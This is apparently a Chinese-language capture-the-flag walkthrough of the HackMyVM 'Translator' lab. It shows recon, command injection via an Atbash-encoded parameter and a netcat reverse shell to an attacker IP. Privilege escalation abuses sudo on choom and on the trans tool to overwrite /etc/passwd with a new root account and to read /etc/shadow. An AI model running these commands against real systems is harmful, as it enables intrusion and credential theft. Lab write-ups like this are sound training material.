 [HackMyVm - Translator - YouTube](https://www.youtube.com/watch?v=xs6Pw9y_Ayg)

|   |   |   |
|---|---|---|
|translator|easy|命令执行、sudo提权、trans 提权|

# 主机发现
```C
netdiscover -i eth0 -r 192.168.44.193/24
```
# 服务探测
```C
nmap -sV -A -T4 -p- 192.168.44.134
```
得到只开放了80和22端口

# 目录爆破

```css
gobuster dir -u http://192.168.44.134/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,txt,php
```

只是个输入框，尝试输入，发现我们输入的字符被替换了然后显示
尝试发现是26个字母倒叙替换
也可以通过https://www.dcode.fr/cipher-identifier 发现是使用atbash编码
但我直接写了个脚本
```Python
import sys

def reverse_alphabet_substitution(text):
    # 定义倒序字母映射字典
    reversed_alphabet = {
        'A': 'Z', 'B': 'Y', 'C': 'X', 'D': 'W', 'E': 'V',
        'F': 'U', 'G': 'T', 'H': 'S', 'I': 'R', 'J': 'Q',
        'K': 'P', 'L': 'O', 'M': 'N', 'N': 'M', 'O': 'L',
        'P': 'K', 'Q': 'J', 'R': 'I', 'S': 'H', 'T': 'G',
        'U': 'F', 'V': 'E', 'W': 'D', 'X': 'C', 'Y': 'B',
        'Z': 'A',
    }

    # 使用映射字典替换文本中的字母
    result = ''.join(reversed_alphabet.get(c.upper(), c) for c in text)

    return result.lower()

args = sys.argv

print(args[1])
# 示例文本
input_text = args[1]

# 应用替换函数
output_text = reverse_alphabet_substitution(input_text)

print(output_text)

```

# 反弹SHELL
sh -i >& /dev/tcp/ 192.168.44.128 / 9001 0>&1不行
```C
┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ python translater.py nc+-e+/bin/bash+192.168.44.128+9001
nc+-e+/bin/bash+192.168.44.128+9001
mx -v /yrm/yzhs 192.168.44.128 9001
```
访问`http://192.168.44.134/translate.php?hmv=rw;mx -v /yrm/yzhs 192.168.44.128 9001

刚监听的shell不太好用，使用下面这条命令打开一个pty伪终端
```C
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm //设置终端类型为常见的xterm环境变量
stty -a//以容易阅读的方式打印当前的所有配置
stty raw -echo;fg//- 通过 `stty raw -echo` 将当前终端设置为原始模式并关闭回显。接着，使用分号 `;` 立即执行下一条命令。最后，`fg` 命令将最近放入后台的作业切换到前台运行，此时由于终端已处于原始模式且回显关闭，该作业可以直接接收用户的无干扰、未经处理的键盘输入。
reset //重新初始化终端
```
# 提权
[使用sudo进行Linux权限升级技巧 - 渗透测试中心 - 博客园](https://www.cnblogs.com/backlion/p/10504003.html)
**配置 sudo [命令](https://links.jianshu.com/go?to=https%3A%2F%2Fwww.linuxcool.com%2F)在运行时而不输入密码。** |此设置在 /etc/sudoers文件中完成，这是使用 sudo [命令](https://links.jianshu.com/go?to=https%3A%2F%2Fwww.linuxcool.com%2F)的默认安全策略；在用户权限指定部分

尝试读取第一个flag读取不到cat /home/ocean/user.txt

```C
cat hvxivg

┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ python translater.py Mb+kzhhdliw+rh+zbfie3w4          
Mb+kzhhdliw+rh+zbfie3w4
ny password is ayurv3d4
```
利用sudo 提权到india 账号
https://gtfobins.github.io/gtfobins/choom/
```C
su ocean //输入密码：ayurv3d4
sudo -l
//发现有个(india) NOPASSWD: /usr/bin/choom   这可以让我免密提权至india用户权限
```

也可以直接ssh：`ssh ocean@192.168.44.134

**choom**      命令是 util-linux 软件包的一部分
不会用这个命令就去找man：[choom(1) - Linux manual page](https://man7.org/linux/man-pages/man1/choom.1.html)
[Ubuntu Manpage: choom - display and adjust OOM-killer score.](https://manpages.ubuntu.com/manpages/focal/en/man1/choom.1.html)

```C
sudo -u india /usr/bin/choom -n 0 /bin/sh
script /dev/null -c bash
```

```C
sudo -l //(root) NOPASSWD: /usr/local/bin/trans
sudo -u root /usr/local/bin/trans//尝试以root权限运行该翻译软件
man /usr/local/bin/trans   //不会就问man,查看帮助命令
```

cat /etc/passwd发现可以显示，添加root用户
```C
cat /etc/passwd
cp /etc/passwd /tmp/passwd.bak
cp /etc/passwd /tmp/file
在kali中生成一个密码
mkpasswd -m sha-512
复制值到file的最后一行中,并按照格式修改成root用户hack:$6$8NJrwgxTZMywbrec$f7JVOZGjIXI0UnN6Ovdv0kzyqiWkhqpIgBOyJOX2AHX4Z4SGuBo8D17cYAolVkVbEtNwQ75ze90uhHbIsA21a0:0:0:root:/root:/bin/bash

sudo -u root /usr/local/bin/trans -i /tmp/file -o /etc/passwd -no-auto
su hack //密码：123
```

```C
root@translator:~# cat root.txt
h87M5364V2343ubvgfy
root@translator:~# cat /home/ocean/user.txt
a6765hftgnhvugy473f
```

方法二：
利用trans 进行提权，命令介绍：https://www.jianshu.com/p/da570df21ae8
这个是google的shell下翻译工具，所以google需要科学上网，我们在后面加上了-x代理，成功读取到shadow文件
```Css
sudo /usr/local/bin/trans -i /etc/shadow -x http://192.168.31.11:7890 -no-auto

sudo /usr/local/bin/trans -i /root/root.txt -x http://192.168.31.11:7890 -no-auto
```
读取后使用john 进行爆破，但是没有爆破出来。

```css
john shadow --wordlist=/usr/share/wordlists/rockyou.txt --format=crypt
```
也可以通过如下命令直接提权到root，反正我是不成功

```css
sudo /usr/local/bin/trans -pager less -x http://192.168.31.11:7890
```
